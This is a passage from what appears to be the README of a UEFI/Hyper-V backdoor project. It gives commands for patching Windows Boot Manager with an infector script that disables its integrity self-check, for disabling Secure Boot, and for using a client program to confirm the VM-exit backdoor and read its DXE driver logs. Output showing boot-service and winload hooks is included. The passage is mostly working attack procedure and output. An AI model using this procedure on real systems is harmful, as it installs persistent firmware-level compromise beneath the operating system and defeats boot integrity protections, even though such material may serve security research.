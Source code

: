 ```
New .reloc virtual size is 0x000040a0
New image size is 0x001c20a0
[+] bootmgr!BmFwVerifySelfIntegrity() signature found at offset 0x0002a25c
[+] DONE
```

Unmount EFI system partition:

```
C:\> mountvol S: /D
```

After that you can restart your system, disable Secure Boot in setup menu and boot into the Windows.

Please pay attention that passing of `--patch-integrity-checks` command line option to the `infector.py` program is mandatory to disable self check of Windows Boot Manager image integrity, in other case it will not able to boot.


## Basic usage

Client program `backdoor_client.exe` is used to interact with the backdoor from Hyper-V guest or host partition. 

Check if backdoor is loaded:

```
> .\backdoor_client.exe 0
[+] Running on CPU #0
[+] VM exit backdoor is present

      Hypervisor CR0: 0x80010031
      Hypervisor CR3: 0x7aa000
      Hypervisor CR4: 0x42260
 Hypervisor IDT base: 0xfffff80005c78040 (limit = 0xffff)
  Hypervisor GS base: 0xfffff80005c7b000
     VM exit handler: 0xfffff8000588c410
       VM exit count: 0xeecbec

Press any key to quit...
```

Obtaining backdoor UEFI DXE driver debug messages that was stored in UEFI runtime memory region (useful for troubleshooting):

```
> .\backdoor_client.exe --debug
[+] Reading firmware variable DmaBackdoorInfo {4c52678d-4851-4501-9a14-29a9ae18f057}
[+] Loading WinIo driver...
[+] WinIo driver was loaded
[+] Reading DXE driver debug messages from 0x8af44000

DmaBackdoorHv.c(723) : ******************************
DmaBackdoorHv.c(724) :
DmaBackdoorHv.c(725) :   Hyper-V backdoor loaded!
DmaBackdoorHv.c(726) :
DmaBackdoorHv.c(727) : ******************************
DmaBackdoorHv.c(760) : Image address is 0x865eb000
DmaBackdoorHv.c(254) : BackdoorImageRealocate(): image size = 0x2c20
DmaBackdoorHv.c(770) : Resident code base address is 0x8af41000
DmaBackdoorHv.c(605) : Protocol notify handler is at 0x8af41364
DmaBackdoorHv.c(630) : BackdoorEntryResident()
DmaBackdoorHv.c(641) : OpenProtocol() hook was set, handler = 0x8af42ff7
DmaBackdoorHv.c(646) : ExitBootServices() hook was set, handler = 0x8af43007
DmaBackdoorHv.c(418) : winload.dll is at 0x830000
DmaBackdoorHv.c(425) : winload!BlLdrLoadImage() is at 0x8c695c
DmaBackdoorHv.c(456) : 791 free bytes found at the end of the code section at 0x98cce9
```